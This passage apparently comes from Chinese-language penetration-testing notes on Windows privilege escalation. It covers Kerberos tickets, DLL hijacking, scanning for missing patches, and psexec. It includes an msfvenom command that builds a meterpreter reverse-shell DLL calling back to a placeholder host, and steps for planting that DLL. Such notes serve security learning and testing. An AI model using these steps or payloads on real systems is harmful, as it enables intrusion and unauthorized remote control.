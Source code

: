 ![](/images/image20210518151547.png)

客户端请求证书的过程如下：

1. 客户端向认证服务器 AS 发送请求，要求得到服务器的证书。
2. AS 收到请求后，将包含客户端密钥的加密证书响应发送给客户端，该证书包括服务器 ticket（包括服务器密钥加密的客户机身份和一份会话密钥）和一个临时加密密钥（又称会话密钥，session key）当然，认证服务器也会给服务器发送一份该证书，用来使服务器认证登陆客户端的身份。
3. 客户端将 ticket 传送到服务器上，服务器确认该客户端的话，便允许它登陆服务器。
4. 客户端登陆成功后，攻击者就可以通过入侵服务器获取客户端的令牌。

## Dll 劫持

### 原理

Windows 程序启动的时候需要 dll。如果这些 dll 不存在，则可以通过在应用程序要查找的位置防止恶意的 dll 来提权。通常，Windows 应用程序有其预定义好的搜索 dll 的路径，它会根据下面的顺序进行搜索：

1. 应用程序加载目录
2. C:\windows\System32
3. C:\windows\System
4. C:\windows

### 提权

* 信息收集：收集服务器中有哪些第三方运行的程序。
* 进程调试：在本地搭建环境，查找该程序在运行的时候调用了哪些dll，注意，这些dll不能是系统的dll。
* 制作名字相同的dll并上传替换。
* 重新启动应用，即可达到提权。

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=xxxx -f dll > /opt/shell.dll
```

## 溢出漏洞

### 信息收集

利用 RCE 查看 systeminfo，使用项目查找漏洞提权。

### 工具利用

wesng：[https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng) (可以用于web权限)

vulmap：[https://github.com/vulmon/Vulmap](https://github.com/vulmon/Vulmap) (不适合web权限)

windowsvulnscan：[https://github.com/chroblert/WindowsVulnScan](https://github.com/chroblert/WindowsVulnScan)

### 命令提权

下载 pstools，使用命令提权：

```shell
psexec.exe -accepteula -s -i -d notepad.exe # (nodepad.exe-->cmd.exe)
```
